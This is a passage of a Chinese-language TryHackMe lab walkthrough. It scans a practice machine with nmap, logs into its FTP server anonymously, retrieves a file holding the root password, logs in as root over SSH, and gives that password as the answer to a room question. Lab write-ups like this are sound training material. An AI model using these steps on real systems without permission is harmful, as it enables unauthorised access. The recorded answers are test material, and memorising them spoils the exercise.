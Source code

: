 ![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/a708c20aa1243c8e2be30bb9e74bd663.png)

让我们总结一下我们在本小节中的工作，我们的目标是获取 IP 地址为MACHINE\_IP的目标系统的root访问权限：

1. 我们使用 nmap 来了解目标机器正在运行的服务。
2. 我们连接到目标机的 FTP 服务器以了解有关其配置的更多信息。
3. 我们发现一个包含root密码的文件被错误地复制到了FTP服务器中的公共文件夹下。
4. 我们使用找到的密码，以root用户身份来进行ssh登录。
5. 最终，我们获得了所有用户文件的访问权限（因为此时的用户身份为root）。

### **答题**

_在本文相关的Tryhackme实验房间页面 部署虚拟实验环境，并完成本小节对应的实例。_

_**问题**_

1. secret.txt文件内容中的密码是什么？
2. /root目录中的flag.txt文件内容是什么？
3. /home/librarian目录中的flag.txt文件内容是什么？

_**操作**_

使用nmap进行端口扫描：

```shell
nmap -sV -sC -T4 10.10.98.42
```

![image-20230322221312517](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230322221312517.png)

> 目标机器上存在FTP服务且允许进行匿名登录

针对目标机的ftp服务进行匿名登录尝试：

```shell
ftp 10.10.98.42
anonymous
ls
get secret.txt 
exit
```

![image-20230322221546534](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230322221546534.png)

下载完敏感文件后，在攻击机终端查看到该文件内容为root用户的密码明文，所以我们基于已知密码 直接尝试以root用户身份进行ssh登录：

```shell
cat secret.txt #password: ABC789xyz123

ssh root@10.10.98.42
```

![image-20230322221617429](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230322221617429.png)

![image-20230322221757084](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20230322221757084.png)

> secret.txt文件内容中的密码是：ABC789xyz123 。

